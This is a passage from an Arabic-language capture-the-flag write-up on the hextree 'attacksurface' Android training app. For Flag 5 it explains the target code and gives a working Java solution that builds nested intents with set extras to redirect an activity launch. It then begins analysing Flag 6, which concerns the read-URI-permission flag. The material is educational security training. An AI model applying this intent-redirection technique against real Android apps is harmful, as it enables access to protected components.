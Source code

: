 ```java
            intent.replaceExtras(new Bundle());
            startActivity(this.nextIntent);
        }
    }
```

هنا الكود بيحاول ياخد data من intent اللي فيه intent تاني كـ extra data لما الـ intent يتفك، الـ activity هيشغله لنا باستخدام `startActivity()`

- `intent2` لازم يكون فيه int extra `"return"` بقيمة `42`.
- `intent2` لازم يكون فيه nested parcelable intent تحت `"nextIntent"`.
- `nextIntent` لازم يكون فيه string extra `"reason"` بقيمة `"back"`.

`intet -> intent2("return",42) -> intent3("reason", "back)`

#### الحل

```java
Intent intent3 = new Intent();  
intent3.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent3.putExtra("reason","back");  
  
Intent intent2 = new Intent();  
intent2.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent2.putExtra("return", 42);  
intent2.putExtra("nextIntent", intent3);  
  
Intent intent = new Intent();  
intent.setComponent(new ComponentName(
"io.hextree.attacksurface", 
"io.hextree.attacksurface.activities.Flag5Activity"));  
intent.putExtra("android.intent.extra.INTENT", intent2);  

startActivity(intent);
```

### Flag 6

#### تحليل الكود

```java
public void onCreate(Bundle bundle) {
        if ((getIntent().getFlags() & 1) != 0) {
            this.f.addTag("FLAG_GRANT_READ_URI_PERMISSION");
            success(this);
        }
    }
```

بسيط، بس نبعت intent مع  `FLAG_GRANT_READ_URI_PERMISSION"` flag .... صح؟
